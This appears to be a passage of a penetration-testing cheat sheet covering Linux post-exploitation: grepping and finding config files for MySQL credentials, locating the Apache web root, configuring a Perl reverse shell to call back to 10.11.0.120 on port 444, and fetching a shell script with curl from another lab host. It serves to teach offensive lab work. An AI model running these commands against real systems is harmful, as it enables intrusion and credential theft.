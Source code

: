 ```text
$ dpkg -l
```

 Useful \(but dry\) reading: [http://www.pathname.com/fhs/pub/fhs-2.3.html](http://www.pathname.com/fhs/pub/fhs-2.3.html)

Looking for MySQL credentials inside an internal web application. We have a few options, either start greping for common phrases in the source code: 

`$ grep -R <search-term> /path/to/folder`

, looking for common file names that sort values:

`$ find /path/to/folder -iname '*config*' -o -iname '*setting*`

else we can look up the manual of how to install it.

### Check Source Code on Github

Example file types to look for:

 "**./core/config.environment.php**", "**./core/config.settings.php**", etc.

### Finding the web root

```text
/etc/apache2$ grep -Ri DocumentRoot .
```

```text
/var/www/html$ find . -iname '*config*'
```

### Making a Perl Reverse Shell file to execute

```text
$ cp /usr/share/webshells/perl/perl-reverse-shell.pl ./shell.pl
$ sed -i 's/my $ip = .*;/my $ip = "10.11.0.120";/; s/my $port = .*;/my $port = 444;/' shell.pl
```

### Downloading Files with Curl \(instead of wget\)

```text
$ curl 10.11.0.4:8888/alpha-shell.pl > shell.pl
$ file shell.pl
```

{% hint style="info" %}
Use full path to binaries in case $PATH is not set

$ whereis perl
{% endhint %}

### Troubleshooting Tips

{% hint style="warning" %}
 Example:
